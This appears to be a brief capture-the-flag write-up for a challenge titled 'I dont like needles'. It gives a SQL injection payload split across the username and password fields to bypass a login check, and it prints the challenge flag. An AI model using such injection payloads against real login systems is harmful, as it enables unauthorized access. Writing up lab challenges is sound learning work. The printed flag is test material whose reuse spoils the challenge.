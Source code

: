 # I dont like needles

After going to `?sauce` i just did sql injection

```sql
username: flagman69'/*
password: */ or '
```

## rtcp{y0u-kn0w-1-didn't-mean-it-like-th@t}

